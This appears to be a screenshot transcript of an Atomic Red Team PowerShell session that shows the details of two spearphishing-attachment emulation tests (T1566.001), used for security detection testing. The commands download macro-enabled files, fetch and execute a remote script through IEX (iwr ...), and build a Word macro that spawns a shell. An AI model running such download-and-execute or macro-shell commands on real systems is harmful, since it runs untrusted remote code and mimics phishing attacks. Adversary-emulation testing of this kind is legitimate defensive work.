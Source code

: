 ~~~
PS C:\Users\Administrator> ^C
PS C:\Users\Administrator> ^C
PS C:\Users\Administrator> Invoke-AtomicTest T1566.001 -ShowDetails
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

[********BEGIN TEST*******]
Technique: Phishing: Spearphishing Attachment T1566.001
Atomic Test Name: Download Macro-Enabled Phishing Attachment
Atomic Test Number: 1
Atomic Test GUID: 114ccff9-ae6d-4547-9ead-4cd69f687306
Description: This atomic test downloads a macro enabled document from the Atomic Red Team GitHub reposito
ry, simulating an end user clicking a phishing link to download the file. The file "PhishingAttachment.xl
sm" and PhishingAttachment.txt are downloaded to the %temp% directory.

Attack Commands:
Executor: powershell
ElevationRequired: False
Command:
$url = 'http://localhost/PhishingAttachment.xlsm'
$url2 = 'http://localhost/PhishingAttachment.txt'
Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm
Invoke-WebRequest -Uri $url2 -OutFile $env:TEMP\PhishingAttachment.txt

Cleanup Commands:
Command:
Remove-Item $env:TEMP\PhishingAttachment.xlsm -ErrorAction Ignore
Remove-Item $env:TEMP\PhishingAttachment.txt -ErrorAction Ignore
[!!!!!!!!END TEST!!!!!!!]


[********BEGIN TEST*******]
Technique: Phishing: Spearphishing Attachment T1566.001
Atomic Test Name: Word spawned a command shell and used an IP address in the command line
Atomic Test Number: 2
Atomic Test GUID: cbb6799a-425c-4f83-9194-5447a909d67f
Description: Word spawning a command prompt then running a command with an IP address in the command line
 is an indiciator of malicious activity. Upon execution, CMD will be lauchned and ping 8.8.8.8

Attack Commands:
Executor: powershell
ElevationRequired: False
Command:
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invo
ke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Sh
ell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
Command (with inputs):
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invo
ke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"C:\Users\Public\art.jse`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Clo
se #1`n   Shell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "Word"

~~~